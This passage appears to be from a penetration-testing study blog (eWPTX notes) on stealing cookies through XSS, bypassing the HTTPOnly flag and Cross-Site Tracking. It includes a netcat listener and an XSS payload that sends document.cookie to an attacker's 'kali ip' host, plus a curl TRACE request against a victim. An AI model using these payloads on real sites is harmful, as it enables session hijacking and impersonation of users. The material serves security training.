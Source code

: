 ![Alt text](/assets/images/posts/ewptx/53.png){: .align-center}

Once we obtain the desired cookie, we can do several operations in addition to logging.
Some examples are as follows:
- a request to an API that requires the stolen cookies (impersonation)
- notify the attacker via email

> simple solution is to use netcat

```bash
netcat -lvvp 80
<script> new Image().src="kali ip"+escape(document.cookie); </script>
```

### Bypassing HTTPOnly Flag
This flag forces the browser to handle the cookie only when trasmitting HTTP request; thus; For client-side scripting languages (IE: JavaSCript), these cookies are practically invisible.

### Cross-Site Tracking (XST)
TRACE connection:
```bash
curl <victim.site> -X TRACE -H "Test: test-header"
```

In JavaScript, there is the **XMLHttpRequest** object that provides an easy way to retrieve data from a URL.

> this technique is very old and consequently modern browsers BLOCK the HTTP TRACE method in XMLHttpRequest and in other scripting languages and libraries such as *JQuery*, *Silverlight*, *Flag/ACtionScript*, etc.

![Alt text](/assets/images/posts/ewptx/54.png){: .align-center}